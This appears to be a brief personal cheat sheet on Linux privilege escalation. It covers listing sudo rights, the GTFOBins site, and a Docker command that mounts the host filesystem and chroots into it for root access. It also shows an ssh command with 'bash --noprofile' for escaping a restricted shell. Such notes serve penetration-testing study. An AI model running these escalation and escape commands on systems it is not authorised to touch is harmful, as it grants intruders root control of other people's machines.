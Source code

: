 #priviledgeEscalation #linux 

### Sudo Abuse

1. Find the Sodo permitted commands from below command line
```bash
sudo -l
```
2. Then look in GTFO bins

https://gtfobins.github.io/

#### GTFO Notes

##### Docker 
```bash
docker ps
```
then use a existing container
```bash
docker run -v /:/mnt --rm -it <existing docker container> chroot /mnt sh
```



### Breaking Out

- Breaking Out of restrictive shell (rbash) can be done using GTFO -shell  bineries
- Use below first
```bash
ssh eleanor@192.168.45.1 -t "bash --noprofile"
```
- Then type if previous didn't work 
```bash
compgen -c
```
- Copy the list under and get a duplicate then try it out
```
https://docs.google.com/spreadsheets/d/1cpZQfa0x-EySl-oMwacb4PpBLd1OfRgEPJ3UVUGFg-M/edit#gid=0
```

